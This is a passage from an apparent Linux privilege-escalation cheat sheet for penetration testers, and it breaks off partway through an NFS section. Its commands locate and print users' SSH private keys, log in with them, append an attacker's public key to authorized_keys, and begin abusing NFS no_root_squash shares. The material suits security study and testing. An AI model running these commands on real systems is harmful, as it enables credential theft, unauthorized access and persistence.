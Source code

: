 ### SSH

**Find Private Keys**

```
ls -la /home /root /root/.ssh /etc/ssh /home/*/.ssh/; locate id_rsa; locate id_dsa; find / -name id_rsa 2> /dev/null; find / -name id_dsa 2> /dev/null; find / -name authorized_keys 2> /dev/null; cat /home/*/.ssh/id_rsa; cat /home/*/.ssh/id_dsa
```

**Readable Private Keys**

```
chmod 600 file
ssh -i file user_name@X.X.X.X
```

**Writeable SSH Keys**

The easiest way to exploit this is to generate a new SSH key pair, add the public key to the file and login in using the private key:

```
ssh-keygen
```

Copy public key file to target:

```

cat ~/.ssh/id_rsa.pub | ssh user_name@X.X.X.X "cat >> /home/user_name/.ssh/authorized_keys"
```

### Unmounted filesystems

Here we are looking for any unmounted filesystems. If we find one we mount it and start the priv-esc process over again.

```
mount -l
cat /etc/fstab
```

### NFS

The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

**Step 1**

Enumerate mountable share from our attacker machine.

```
showmount -e <ip>
```

**Step 2**
